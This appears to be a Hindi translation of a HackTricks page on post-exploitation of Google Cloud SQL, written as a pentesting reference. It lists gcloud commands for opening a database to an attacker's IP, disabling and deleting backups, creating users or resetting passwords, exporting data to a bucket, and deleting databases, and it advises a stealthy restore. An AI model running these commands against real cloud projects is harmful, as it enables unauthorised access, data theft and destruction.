 # GCP - Cloud SQL के बाद की जानकारी

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## Cloud SQL

Cloud SQL के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

डेटाबेस से कनेक्ट करने के लिए आपको **केवल डेटाबेस पोर्ट तक पहुंच की आवश्यकता होती है** और **उपयोगकर्ता नाम** और **पासवर्ड** जानना होता है, कोई IAM आवश्यकताएं नहीं होती हैं। इसलिए, पहुंच प्राप्त करने का एक आसान तरीका, मान लीजिए कि डेटाबेस का एक सार्वजनिक IP पता है, अनुमत नेटवर्क को अपडेट करना है और **अपने स्वयं के IP पते को इसे एक्सेस करने की अनुमति देना** है।
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
डेटाबेस के **बैकअप्स को बाधित करने** के लिए **`--no-backup`** का उपयोग भी संभव है।

चूंकि ये आवश्यकताएं हैं, मुझे पूरी तरह से यकीन नहीं है कि **`cloudsql.instances.connect`** और **`cloudsql.instances.login`** की अनुमतियां किस लिए हैं। अगर आपको पता है तो PR भेजें!

### `cloudsql.users.list`

डेटाबेस के **सभी उपयोगकर्ताओं की सूची** प्राप्त करें:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

यह अनुमति **डेटाबेस के अंदर एक नए उपयोगकर्ता को बनाने की** सुविधा देती है:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

यह अनुमति **डेटाबेस के अंदर उपयोगकर्ता को अपडेट करने** की सुविधा देती है। उदाहरण के लिए, आप इसका पासवर्ड बदल सकते हैं:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

बैकअप में **पुरानी संवेदनशील जानकारी** हो सकती है, इसलिए उन्हें जांचना दिलचस्प होता है।\
डेटाबेस के अंदर **एक बैकअप को पुनर्स्थापित करें**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
इसे अधिक गुप्त तरीके से करने के लिए यह सिफारिश की जाती है कि एक नया SQL इंस्टेंस बनाएं और वहां डेटा को पुनर्प्राप्त करें बजाय वर्तमान में चल रहे डेटाबेस में।

### `cloudsql.backupRuns.delete`

यह अनुमति बैकअप्स को हटाने की अनुमति देती है:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**एक डेटाबेस को निर्यात करें** Cloud Storage Bucket में ताकि आप वहां से इसे एक्सेस कर सकें:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**एक डेटाबेस का आयात करें** (ओवरराइट) एक Cloud Storage Bucket से:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

डीबी इंस्टेंस से एक डेटाबेस को हटाएं:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
